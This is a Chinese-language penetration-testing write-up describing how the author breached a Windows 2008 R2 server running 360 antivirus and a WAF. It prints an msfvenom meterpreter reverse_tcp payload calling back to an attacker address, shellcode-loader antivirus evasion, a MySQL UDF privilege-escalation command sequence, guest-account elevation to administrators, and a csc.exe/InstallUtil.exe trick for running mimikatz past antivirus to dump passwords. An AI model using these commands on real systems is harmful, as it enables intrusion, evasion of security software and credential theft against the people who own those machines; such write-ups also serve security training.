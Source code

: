 > 一次普通的项目，做完后，却陈思很久，遂打算一气合成把整个流程记录下来，此篇再一次的叮嘱我：分享便是我最好的老师。                          
> Micropoor
                                     
拿shell过程略过。（由于文章在项目实施结束形成，故部分无图或补图）

-------

### 目标机背景：
windows 2008 r2 x64位 360主动 + 360卫士 + 360杀毒 + waf，目标机仅支持 aspx。运行 OAWeb 服务（.net+mssql），并且是内网中其他服务器的数据库服务器（mysql 数据库，不支持 php，无 .net for mysql 驱动）

![](/img/7aa1856e57ac0ef987a329b1b89a4524.jpg)

### 端口开放如下：
![](/img/d599b0029b2b161bc950e73a1c40b841.jpg)

### 需要解决的第一个问题：payload 
由于目标机，安装某套装，payload 一定是必须要解决的问题。当 tasklist 的时候，看到如下图几个进程的时候，第一反应就是需要做 payload 分离免杀。分离免杀主要分两大类，一类为第三方分离免杀，一类为自带安装分离免杀。文章中，采取了第三方分离免杀。  
 
![](/img/d2673aa4f5b1e77887ad446a0fdb2ec4.jpg)

### 本地补图（由于项目在实施后形成该文章，故本地靶机补图）

目前的反病毒安全软件，常见有三种，一种基于特征，一种基于行为，一种基于云查杀。云查杀的特点基本也可以概括为特征查杀。无论是哪种，都是特别针对PE头文件的查杀。尤其是当payload文件越大的时候，特征越容易查杀。  

既然知道了目前的主流查杀方式，那么反制查杀，此篇采取特征与行为分离免杀。避免PE头文件，并且分离行为，与特征的综合免杀。适用于菜刀下等场景，也是我在基于windows下为了更稳定的一种常用手法。载入内存。

### 0x00:以msf为例：监听端口  
![](/img/19dfebd9ab71a4e0c11ac47a082a5d7a.jpg)

### 0x01：这里的payload不采取生成pe文件，而采取shellcode方式，来借助第三方直接加载到内存中。避免行为：
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.5 lport=8080 -e x86/shikata_ga_nai -i 5 -f raw > test.c
```
![](/img/1a912494f05f8ca99edf268225e1a66f.jpg)

### 0x02:既然是shellcode方式的payload，那么需要借助第三方来启动，加载到内存。执行shellcode，自己写也不是很难，这里我借用一个github一个开源：  
https://github.com/clinicallyinane/shellcode_launcher/  

>   作者的话：建议大家自己写shellcode执行盒，相关代码网上非常成熟。

![](/img/8b5a85a36c75eb412d5938adcb9c07f8.jpg)  

生成的payload大小如下：476字节。  

![](/img/f4ca74ee9eebe883fdf665a892e0b058.jpg)

世界杀毒网：  
![](/img/663bc4d955c71bf9882c9a31761e0c14.jpg)

上线成功。  
![](/img/be28c1202684af6369757b813f4d9649.jpg)  

而关于自带安装分离免杀，请参考我在公司 Wiki 上写的第六十九课时 **payload分离免杀思路第二季**  

payload 反弹到 vps 的 msf 上，我的权限仅仅如下。  
![](/img/19694da12bf09c5a567986db01872863.jpg)

### 需要解决的第二个问题：提权
参考主机背景图，184个补丁，以及某套装。遂放弃了exp提权。  
* 原因1：需要更多的时间消耗在对反病毒软件对抗。  
* 原因2：目标机补丁过多。需要消耗更多的时间  
* 原因3：非常艰难的环境下，拿到了权限，不想因为某些exp导致蓝屏从而丢失权限。

开始翻阅目标机上的文件，以及搜集目标机的端口，服务，启动等一系列信息。发现目标机安装mysql，并与内网其中一台建立大量连接。mysql版本为5.1.49-community-log

下载目标机\*..MYI，\*.MYD，\*.frm，加载于本地mysql。得到目标机root密码  
![](/img/6344f895e12122941c872ea7ec30e968.jpg)

而目标机没有相关脚本环境连接mysql，到这里，可以有2个方向针对该问题作出解决  
* 一：转发目标机端口到本地，从而操作mysql。  
* 二：在非交互式下，完成mysql udf的提权。

为了减少目标主机的流量探测，以及维护来之不易的session，故选择了第二种方案。非交互式下，mysql提权。

命令行下，调用mysql是需要在启动一个mysql窗口，从而继续执行，而session下没有这样的条件。但mysql的 -e 参数 作为直接执行sql语句，从而不另启动窗口。而-e需要注意的事项，use database。

也就是所有参数需要mysql.xxxx  
![](/img/8ebbf18b920c921b26d200c0764b0e51.jpg)  

如没有指定database，将会出现如下错误，而使用UNION，将不会有回显，一定出现问题，将会很难定位，故选择以mysql.x的方式指定。

![](/img/d66e6280c230d7df5594034f2b120506.jpg)

大致流程如下：
```bash
mysql -uroot -pXXXXXX -e "create table mysql.a (cmd LONGBLOB);" 
mysql -uroot -pXXXXXX -e "insert into mysql.a (cmd) values (hex(load_file('D:\\XXXXXXXXXX\\mysql5\\lib\\plugin\\u.dll')));"
mysql -u root -pXXXXXX -e "SELECT unhex(cmd) FROM mysql.a INTO DUMPFILE 'D:/XXXXXXXXXX/mysql5/lib/plugin/uu.dll';"
mysql -uroot -pXXXXXX -e "CREATE FUNCTION shell RETURNS STRING SONAME 'uu.dll'" 
mysql -uroot -pXXXXXX -e "select shell('cmd','whoami');"
```
![](/img/9937c23b9e70b9cdd717edaf8872424c.jpg)

### 需要解决的第三个问题：登录服务器

在有套装的环境下，默认拦截cmd下加帐号，而目前又无法抓取系统登录明文。mimikatz被查杀。cmd下调用powershell被拦截。遂选择激活guest帐号，并提升到administrators组，来临时登录目标机。  
![](/img/4eb174d39dbe43bc7d4428629d5398b0.jpg)

![](/img/3455e7d1c707e61e18e8addd6e9cf92f.jpg)

### socks代理登录目标机：
![](/img/071c738c001832dabeda3cf1474eb585.jpg)

### 需要解决的第四个问题：抓取目标机明文密码

登录服务器后，目前依然不知道目标机的密码。这里有两种方向来解决该问题。  
* 一：关闭我能关闭的套装，由于管理员没有注销登录。能关闭的有限。  
* 二：分离免杀做mimikatz密码抓取

作者选择了第二种方案：

这里需要用到**csc.exe，与InstallUtil.exe**

关于两个文件默认安装位置：（注意x32，x64区别）
```bash
C:\Windows\Microsoft.NET\Framework\
C:\Windows\Microsoft.NET\Framework64\
C:\Windows\Microsoft.NET\Framework\
C:\Windows\Microsoft.NET\Framework64\
```
分别执行：
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.IO.Compression.dll /target:library /out:Micropoor.exe /keyfile:C:\Users\Johnn\Desktop\installutil.snk /unsafe
C:\Users\Johnn\Desktop\mimi.cs

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\Johnn\Desktop\Micropoor.exe
```
![](/img/18d0d45533111eb2d484ea1d82de9468.jpg)

![](/img/69b5325b911756ed887ffd19523ae927.jpg)

### 派生出的第五个问题：横向渗透

关于第五个问题，本意并不是该篇幅所要讲述的，后续是搜集目标机的mssql，mysql，rdp 密码。搜集所在内网的拓扑，来辅助本次的横向扩展。便完成了本次的项目。
如需具体，请参考我在Wiki上的系列教程78，79，12，13，71课时。  

![](/img/eccebe5ce07798d977d07e4c3c0d6e8b.jpg)

> 后者的话：
> 本次的整个流程，并没有遇到太多的问题，仅仅是把几个知识点的串联起来，形成的一个完整的渗透。也许你了解知识点1，也了解知识点2，还了解知识点3等等。但是一次完整的项目是离不开每一个知识点的串联与灵活运用。这应该是每一个信息安全从业人员值得思考的问题。

**在每次分享的同时，深深发现，原来分享，才是我最好的老师。**

> Micropoor


